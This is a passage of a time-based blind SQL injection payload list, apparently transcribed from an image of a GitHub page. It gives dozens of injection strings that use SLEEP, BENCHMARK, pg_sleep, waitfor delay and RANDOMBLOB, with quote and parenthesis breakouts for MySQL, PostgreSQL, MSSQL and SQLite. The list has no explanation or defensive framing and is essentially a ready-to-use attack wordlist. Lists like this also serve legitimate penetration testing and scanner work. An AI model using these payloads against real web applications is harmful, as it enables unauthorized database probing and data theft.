 ```
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
```